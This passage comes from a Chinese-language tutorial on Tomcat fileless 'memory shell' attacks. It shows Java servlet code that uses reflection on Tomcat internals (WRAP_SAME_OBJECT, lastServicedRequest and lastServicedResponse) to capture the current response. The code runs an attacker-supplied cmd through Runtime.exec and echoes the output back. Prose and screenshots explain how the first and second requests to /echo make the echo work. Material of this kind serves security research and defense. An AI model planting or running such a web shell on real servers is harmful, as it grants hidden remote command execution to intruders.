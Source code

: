 ```java
            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(applicationDispatcher) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(applicationDispatcher,true);
                lastServicedRequestField.set(applicationFilterChain,new ThreadLocal());
                lastServicedResponseField.set(applicationFilterChain,new ThreadLocal());
            } else if (cmd!=null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                StringBuilder sb = new StringBuilder("");
                byte[] bytes = new byte[1024];
                int line = 0;
                while ((line = inputStream.read(bytes))!=-1){
                    sb.append(new String(bytes,0,line));
                }
                Writer writer = lastServicedResponse.get().getWriter();
                writer.write(sb.toString());
                writer.flush();
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```
首先在访问/echo的时候，第一次访问ApplicationDispatcher.WRAP_SAME_OBJECT这里为false

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_40_wSIfWFxq.png)

在这里就会直接把resquest和response 给对应访问的servlet（ShellServlet)然后可以看到

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_40_sazi95Iu.png)

然后到ShellServlet#doGet()的时候，则会进入到if分支因为当前的ApplicationDispather.WRAP_SAME_OBJECT为false，且lastServicedRequest,lastServicedResponse初始化都为null，通过反射将ApplicationDispather.WRAP_SAME_OBJECT这个变量修改为true，并将lastServicedRequest,lastServicedResponse初始化实例化

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_40_uDK4vJtm.png)

由于修改值之后，最后到finally，lastServicedRequest，lastServicedResponse又会被设置为(Object) null

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_41_guj5KGdw.png)

然后第二次访问的时候，此时ApplicationDispather.WRAP_SAME_OBJECT为true，进入条件分支，此时lastServicedRequest，lastServicedResponse都已经被赋值

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_41_lIDotGaA.png)
